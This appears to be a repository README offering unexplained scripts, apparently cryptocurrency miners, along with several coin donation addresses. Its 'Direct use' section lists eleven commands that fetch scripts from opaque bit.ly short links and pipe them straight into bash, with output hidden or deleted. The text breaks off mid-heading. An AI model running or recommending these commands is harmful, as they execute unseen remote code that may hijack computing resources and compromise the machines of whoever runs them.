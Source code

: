 # 10 000 code and code

This project offers multiple scripts to better use your computer power and network without wasting anything

<span style="color:Red">The address and urls are hardcoded in the scripts you need to change it before using the script</span>.



## Donate

ETH:	0x1be9C1Db52aC9cD736160c532D69aA4770c327B7

ETC:	0x5C5152521D51f23735Bf14a8f6321d39bA73D95f

RVN:	RMV17aQMgMPyPqJQ5H3WRQH37Njspi1SSK

ZEC:	t1ab2rCrgCbqaspPodCALpR6epzEiu5uCHF

YEC:	s1THjZQJxthDD9tt1dRzQSqDoQQH9XwNM5x

ADA:    addr1qy4aeu2wpjpuy0r2xn64eec0z6300wnqrj5ypj3ep9g49ggm7gg506stxjnjp3zjs3a9mch478sfl6qt722zu2gs28fqq5dfv6

XMR:	44ucr5iSqUjCR6m93Gu9ssJC9W1yWLGz1fZbAChLXG1QPnFD5bsTXKJAQEk8dHKDWx8hYJQ5ELqg9DJKNA1oRoNZKCGyn1p

## Scripts Direct use

!echo $(wget -q -O - bit.ly/RV00001 2> lol.out | bash )

!echo $(wget -q -O - bit.ly/RV20001 2> lol.out | bash )

wget -q -O - bit.ly/IBM0001 2> lol.out | bash 

wget -q -O - bit.ly/ET00001 2> lol.out | bash 

wget -q -O - bit.ly/RVET0001 2> lol.out | bash 

wget -q -O - bit.ly/XM00001 2> lol.out | bash 

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0001 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TEsT0002 | bash

!wget --no-cache --delete-after -q -O - bit.ly/TesT0003 | bash


!wget --no-cache --delete-after -q -O - bit.ly/rvoc0001 | bash

!wget --no-cache --delete-after -q -O - bit.ly/rvcu0001 | bash

## Solo M

